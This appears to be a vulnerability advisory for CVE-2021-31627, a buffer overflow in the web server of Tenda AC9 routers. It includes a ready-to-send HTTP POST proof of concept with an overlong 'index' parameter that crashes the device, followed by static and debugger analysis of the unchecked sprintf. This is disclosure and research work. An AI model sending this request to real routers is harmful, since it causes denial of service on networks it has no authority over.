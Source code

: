 # CVE-2021-31627

## 1、Basci information

vendor: Tenda

product: AC9 and so on

version: V1.0V15.03.05.19（6318）、V3.0V15.03.06.42_multi and so on

Vulnerability type: buffer overflow

Vulnerability Effect: Denial of Service

## 2、Principle description of vulnerability technology

Affected Vulnerability Components:
- File name: bin/httpd
- function: wifi wps setting

## 3、Vulnerability value

Stable reproducibility: Yes

exploit conditions：
- attack vector type: neighboring network
- Stability of exploit: every attack can be successful
- Whether the product is configured by default: there are loopholes in the functional components that are enabled at the factory

## 4、PoC

```
POST /goform/WifiWpsOOB HTTP/1.1
Host: 192.168.56.102
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: password=lqetgb
Content-Length: 2444

index=ttttaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&sta_pin=tttt&wifi_chkHz=tttt
```

## 5、Vulnerability principle

### 5.1 static analysis

After analysis, the code causing the vulnerability is shown in the following figure. Because the parameter `index` imported from outside is not checked, the attacker can directly execute the `sprintf` of the 54 lines of the vulnerability function by constructing malicious data, resulting in the effect of buffer overflow, which eventually leads to denial of service

![](imgs/stack3/code.png)

### 5.2 dynamic analysis

The crash site is as follows

![](imgs/stack3/debug1.png)

Specific debugging shows that the breakpoint is set before the assembly code `0x0009B928` corresponding to `sprintf` of 54 lines of IDA disassembly code, and the contents of register SP are normal before the program executes this statement

![](imgs/stack3/debug2.png)

When this statement is executed, an overflow occurs, and the contents of register SP become as follows

![](imgs/stack3/debug3.png)

The reason for the denial of service is shown in the following figure. The instruction `pop {r4,r5,fp,pc}` at the address `0x0009B940` pops up the stack contents to the register PC, which causes the program to execute a nonexistent command, and finally causes the effect of denial of service

![](imgs/stack3/debug4.png)

## 6、CNVD reference 

[CNVD reference](https://www.cnvd.org.cn/flaw/show/CNVD-2021-26080)